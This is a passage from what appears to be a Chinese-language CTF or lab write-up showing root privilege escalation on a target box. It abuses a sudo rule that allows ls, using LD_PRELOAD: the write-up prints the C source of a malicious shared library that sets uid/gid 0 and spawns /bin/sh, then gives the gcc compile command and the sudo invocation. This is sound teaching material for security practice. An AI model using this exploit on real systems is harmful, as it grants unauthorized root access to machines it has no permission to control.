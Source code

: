 现在我们需要手动提权拿到root权限，sudo -l 看一下这个用户可以用sudo执行什么命令

![在这里插入图片描述](https://img-blog.csdnimg.cn/934b665cf04a4308bfd5626786f42ad7.png)

这个用户可以用sudo命令执行ls命令

我们可以通过利用LD_PRELOAD环境变量，强制用ls命令加载一个自定义共享库，该库在目标机器上提供 shell 访问


创建一个文件，然后写入以下代码
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
上面的代码很简单。它将用户 ID 和组 ID 设置为 0，并生成一个 bash shell

![在这里插入图片描述](https://img-blog.csdnimg.cn/d6f5195626d94d609d6403f1a3d8db88.png)


然后编译这个文件为共享库
```
gcc -fPIC -shared -o shell.so 1.c -nostartfiles
```

然后执行

```
sudo LD_PRELOAD=/home/robert/shell.so ls
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9e287f0711a849708b32d75e9bcfb3ec.png)

成功拿到root权限

查看flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/a3473b0ad7a841f4a0677051d1dcbb0d.png)

